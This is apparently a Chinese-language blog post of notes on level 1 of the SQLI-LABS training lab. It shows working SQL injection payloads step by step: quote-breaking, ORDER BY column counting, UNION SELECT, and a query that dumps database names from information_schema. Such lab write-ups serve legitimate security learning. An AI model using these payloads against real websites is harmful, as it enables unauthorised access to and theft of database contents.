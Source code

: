 ```yaml
---
layout: post
title: "SQLI-LABS 闯关笔记"
date: 2019-3-18 20:49:43
author: co0ontty
categories: CTF WEB MYSQL ALL
tags: CTF WEB MYSQL ALL 
describe: SQLI-LABS 闯关笔记 
---
```

## Less-1
```php
?id=1'
```
报错：  
```php
 near ''1'' LIMIT 0,1' at line 1
```
推断查询语句为：  
```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```
构造注入语句：
用单引号闭合id='的前单引号
用--+ 闭合id=''的后单引号
```php
?id=1'order by 1 --+ 
$sql="SELECT * FROM users WHERE id='1'order by 1 --+ ' LIMIT 0,1";
```
查看有多少字段，当输入到4的时候报错，说明存在3个字段  
```php
?id=1'order by 4 --+
```
联合查询union 
```php
?id=1' union select 1,2,3 --+
```
正常显示，猜测函数mysql_fetch_array只被调用了一次，而mysql_fetch_array() 函数从结果集中取得一行作为关联数组，即只显示一行数据。  
那么我们只要让第一行查询的结果是空集（即union左边的select子句查询结果为空），那么我们union右边的查询结果自然就成为了第一行，就打印在网页上了，这个id他一般传的是数字，而且一般都是从1开始自增的，我们可以把id值设为非正数（负数或0），浮点数，字符型或字符串，即设置为数据库中查询不到的id值。
```php
?id=-1' union select 1,2,3 --+
```
查询数据库:  
```php
?id=-1' union select 1,2, (select group_concat(schema_name) from information_schema.schemata) -- +
```  